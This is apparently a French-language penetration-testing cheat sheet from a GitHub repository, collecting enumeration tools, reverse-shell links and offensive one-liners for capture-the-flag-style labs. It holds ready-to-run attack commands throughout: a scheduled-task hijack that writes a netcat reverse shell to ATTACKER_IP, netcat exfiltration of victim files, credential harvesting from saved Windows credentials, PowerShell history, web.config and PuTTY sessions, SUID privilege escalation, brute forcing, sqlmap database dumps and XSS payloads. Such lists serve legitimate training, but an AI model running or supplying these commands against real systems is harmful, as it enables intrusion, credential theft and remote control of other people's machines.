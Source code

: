 ```
===========================================

_______________________________ /\ 
\_   ___ \__    ___/\_   _____/ )/______
/    \  \/ |    |    |    __)    /  ___/
\     \____|    |    |     \     \___ \ 
 \______  /|____|    \___  /    /____  >
        \/               \/          \/ 

============================================
```
# Énumeration

linPEAS : https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS <br>
linEnum : https://github.com/rebootuser/LinEnum <br>
winPEAS : https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASbat (.bat) <br>

# Objectif Reverse shell !

Netcat for windows : https://eternallybored.org/misc/netcat/netcat-win32-1.11.zip <br>
Hacker tools : https://addons.mozilla.org/en-US/firefox/addon/hacktools/ <br>
Reverse Shells : https://www.revshells.com/ <br>
Reverse shell php : https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php <br>

# Utiles

subdomains.txt : https://raw.githubusercontent.com/danTaler/WordLists/master/Subdomain.txt <br>
Bypass authentication : https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass <br>
PAYLOADSALLTHETHINGS : https://github.com/swisskyrepo/PayloadsAllTheThings (reverse shell, etc...) <br>
Binaries exploit : https://gtfobins.github.io/ <br>
PrivEscCheck (windows) : https://github.com/itm4n/PrivescCheck <br>
```
PS C:\> Set-ExecutionPolicy Bypass -Scope process -Force
PS C:\> . .\PrivescCheck.ps1
PS C:\> Invoke-PrivescCheck
```
wes.py (aussi pour windows): https://github.com/bitsadmin/wesng/blob/master/wes.py <br>
```
user@kali$ wes.py systeminfo.txt        
```
Windows Local PrivEsc : https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation

-------------------------------------------------------------------------------------------------------------------------------------------+
# Basiques !
```
[+] => INFO GATHERING           - sudo -l
[+] => SPAWN SHELL USING PYTHON - python3 -c 'import pty; pty.spawn("/bin/sh")'
[+] => SPAWN SHELL USING BASH   - bash -i
[+] => TRANSFER FILE VIA NETCAT - [victime] nc -nv <ip> 1337 < <file_to_transfer> | [attacker] nc -lnvp 1337 > <file_to_transfer>
```
-------------------------------------------------------------------------------------------------------------------------------------------+
# Linux
```
[CMD](JS)        => <iframe src=file:///etc/passwd></iframe>
[CMD](WordPress) => wpscan => ex (brute force mdp) wpscan --url 10.10.180.74/blog -U admin -P /usr/share/wordlists/rockyou.txt
[CMD](misconfig) => bash -p
[CMD](BINARIES)  => find / -user root -perm -4000 -exec ls -ldb {} \;
[CMD](GOBUSTER)  => gobuster dir -u <url> -w=/usr/share/wordlists/dirb.../<list> -b <status_code_to_exclude>
[CMD](NMAP/SMB)  => nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse MACHINE_IP  (SAMBA)
                    smbclient //<ip>/anonymous (-U pour un utilisateurs)
                    smbget -R smb://<ip>/anonymous
[CMD](FFUF)      => ffuf -c -w /usr/share/wordlists/subdomains.txt -u http://domain.com/ -H "Host: FUZZ.domain.com" -fc 301
[CMD](list)      => msfvenom -l payloads | grep windows | grep reverse | grep shell  (exemple)
[CMD](decrypt)   => john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt  --format=<format>
[CMD](sql)       => sqlmap -r file.txt --dbms=mysql --dump | (après avoir copier une requête Burp dans un fichier txt)
[CMD](ftp)       => wget -m --no-passive ftp://anonymous:anonymous@<IP>  (download tout)
```
<br>
[?] Using "-p" on an SUID file will run it with the permission of the owner. Ex if root own a file and you run it (non-root) using "-p" you will run it with root perm
<br> 
<br>

# Windows

```
[RDP]            => xfreerdp /d:<domain> /u:'<user>' /p:'<password>' /v:<prefix>.<domain> /drive:.,kali-share +clipboard

[CMD](WIN)*PS*   => Invoke-WebRequest -Uri "http://<ip>:<port>/<file>" -Outfile <outfile>
[CMD](WIN)*PS*   => Expand-Archive <file.zip>
[CMD](WIN)*PS*   => type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt (ou %userprofile% avec CMD)
[CMD](WIN)*PS*   => cmdkey /list  #liste les creds sauvegardés
[CMD](WIN)*PS*   => runas /savecred /user:admin cmd.exe  #exécute l'action avec les credentials sauvegardés
[CMD](WIN)*PS*   => schtasks | schtasks /query /tn TASKVULNERABLE /fo list /v   #Planificateur de tâche
                    icacls c:\tasks\schtask.bat #Donne des infos sur les permissions planificateur de tâches
                    echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
                    schtasks /run /tn vulntask #Exécute la tâche direct

[CMD](WIN)*CMD*  => certutil.exe -urlcache -f http://<ip>:<port>/file.exe new_file.exe
```
# Windows : IIS Configuration
![image](https://user-images.githubusercontent.com/97956863/231268829-26242927-066f-47be-a4c4-cab613374d7f.png)

    C:\inetpub\wwwroot\web.config
    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

```
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

# Windows : PuTTY
```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
#Il est important de garder SimonTatham car c'est le créateur de PuTTY ! 
```
# Some XSS Cheats
```
<script>document.querySelector('#page-title').textContent = 'New text'</script>
<img src=x onerror=alert('hello')>
```


-------------------------------------------------------------------------------------------------------------------------------------------+

